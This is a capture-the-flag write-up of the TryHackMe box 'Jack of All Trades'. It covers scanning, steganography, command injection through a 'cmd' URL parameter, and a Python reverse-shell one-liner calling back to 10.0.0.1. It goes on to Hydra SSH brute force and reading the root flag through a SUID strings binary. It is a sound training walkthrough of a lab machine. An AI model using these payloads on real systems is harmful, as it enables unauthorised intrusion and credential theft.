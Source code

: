 # 'Jack-of-All-Trades' box writeup
## Jack of All Trades is a CTF box originally designed for Securi-Tay 2020 and written by MuirlandOracle, available on the [TryHackMe platform](https://tryhackme.com).
## Read about [How to allow restricted ports](https://support.mozilla.org/en-US/questions/1083282#answer-780274), [SUID files](https://www.tecmint.com/how-to-find-files-with-suid-and-sgid-permissions-in-linux/) and [Steghide](http://steghide.sourceforge.net/)
## ![bg](images/backgroundjack.jpeg?raw=true "Title")

## Foothold

+ **We deploy the machine and start with an nmap scan for open ports**

``nmap -sV -sC -oN scan1 10.10.252.248``

+ **We can see 2 open ports with some services: ssh and http. The first strange thing is that the services are opened on reversed ports. Ssh is opened on the 80 ports and http on the 22 one**

![1](images/nmap_scan_jack.jpg?raw=true "Nmap_scan")

+ **Let's try to get to the http web-site on the 22 port. We see an browser error: seems like Firefox has canceled our request for kind of security. That's because the unusual use of 22 port for the http service**

![2](images/restrict.jpg?raw=true "restrict")

**We can allow this restricted port making some configuration inside the mozilla browser: [allow restricted ports](https://support.mozilla.org/en-US/questions/1083282#answer-780274). Go into the about:config page in the url, search for the ports and add the network.security.ports.banned.override string, with the 22 value**

![3](images/add_string.png?raw=true "add_string")

![4](images/welcome.png?raw=true "welcome")

**We can see our main page, with the box title and some images in there. Let's scan with gobuster too**

``gobuster dir -u http://10.10.252.248:22/ -w /usr/share/wordlists/dirb/common.txt``

![5](images/gobust.jpg?raw=true "gobust")

+ **Let's take a look into our gobuster output. Let's visit the assets page; we can see some *jpg* files, one of them called** stego.jpg **so we can think about an encrypted image with the help of steganography**

![6](images/assets.jpg?raw=true "assets")

+ **We can try to extract the stego image to see de hidden data, so we're gonna use steghide**

``steghide --extract -sf stego.jpg``

**A passphrase is requested, so we cannot immediately decrypt the image, but we can continue to enumerate the http page. Let's take a look into the source code of the page**

+ **We can spot a message left in the source code of the page: a recovery message which tells us we can connect on the /recovery.php page and there's also a base64 encoded message**

![7](images/base64.jpg?raw=true "base64")

**Let's try to decrypt our message**

``echo "UmVtZW1iZXIgdG8gd2lzaCBxxxxxxxxxx" | base64 -d``

![8](images/decrypt.jpg?raw=true "base64")

**We got a message and a password too! Let's use it to decrypt the image with steghide**

![9](images/first_steg.jpg?raw=true "first_steg")

+ **A creds.txt file was hidden inside, but the stego.jpg wasn't the good path. Let's download the other images from the assets page and extract them**

![10](images/real_steg.jpg?raw=true "real_steg")

``steghide --extract -sf header.jpg``

**Bingo! We got a username and a password inside the header.jpg image. Let's go to the /recovery.php page and try to login with the credentials**

+ **Logging in with our credentials on the page, we are redirected to a page with the message:**

``GET me a 'cmd' and I'll run it for you Future-Jack.``

![11](images/login.jpg?raw=true "login")

**Now, let's try some system commands inside the url:**

``http://10.10.252.248:22/nnxhweOV/index.php?cmd=cat /etc/passwd``

![cmd](images/cmdworks.jpg?raw=true "cmd")

+ **It's all working, so go grab a reverse shell. I'm gonna use python and start listen with nc**

``nc -lvnp 1234``

``http://10.10.252.248:22/nnxhweOV/index.php?cmd=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'``

![12](images/access.jpg?raw=true "access")

## User escalation

**Here we got our access into the system. Let's spawn an interactive shell with python and continue to enumerate**

``python -c 'import pty; pty.spawn("/bin/bash")'``

+ **Looking into the /home directory, we can see a** ``jacks_password_list`` **file which seems to be a password list for the jake user. According to the second service opened, on the 80 port, the ssh service, we're gonna try to bruteforce the login with the given wordlist and with the help of the Hydra tool**

![13](images/jackspassw.jpg?raw=true "jacks")

+ **Firstly, we need to download the** ``jacks_password_list`` **file to our machine. Open a python server on the Jack box and we're gonna get the file on our's**

**The Jack box**

**``www-data@jack-of-all-trades:/home$``** ``python -m SimpleHTTPServer 6999``

**Our machine**

**``{kali@kali:Jack of All Trades_0}$``** ``wget 10.10.252.248:6999/jacks_password_list``

+ **Now, having the wordlist, let's start the bruteforce phase. Don't forget to set the port for the ssh service, because it's not on the default (22), but the 80 one**

``hydra -s 80 -v -V -l jack -P jacks_password_list -t 8 10.10.252.248  ssh``

![13](images/hydra(1).jpg?raw=true "hydra")

**Let's connect into the ssh server with our credentials on the 80 port**

``ssh jake@10.10.252.248 -p 80``

+ **In the /home/jack directory we can see the user flag, but in the .jpg format. Let's get the image on our machine, using the same method as above, and then open it**

**``www-data@jack-of-all-trades:/home$``** ``python -m SimpleHTTPServer 6999``

**``{kali@kali:Jack of All Trades_0}$``** ``wget 10.10.252.248:6999/user.jpg``

**Opening the user.jpg flag, we can see the Penguing recipe and the user flag**

![14](images/user.flag.jpg?raw=true "user")

## Root escalation

+ **Checking for ``sudo -l`` on the jack user gives us no good path. He has no sudo permission on the machine**

``Sorry, user jack may not run sudo on jack-of-all-trades.``

**Let's check for some advanced linux file permissions - suid**

``find / -type f -user root -perm -4000 -print 2>/dev/null``

+ **This gives us some interesting output. The strings executable has got file owner permission when executing a command**

![15](images/suid.jpg?raw=true "suid")

**Knowing this, let's try to use strings on our root.txt flag**

``strings /root/root.txt``

+ **And here's our root flag. This was a very nice box with some steganography challenges into, a reversed ports configuration of services and some file permissions**

![15](images/root_flag_jack.jpg?raw=true "suid")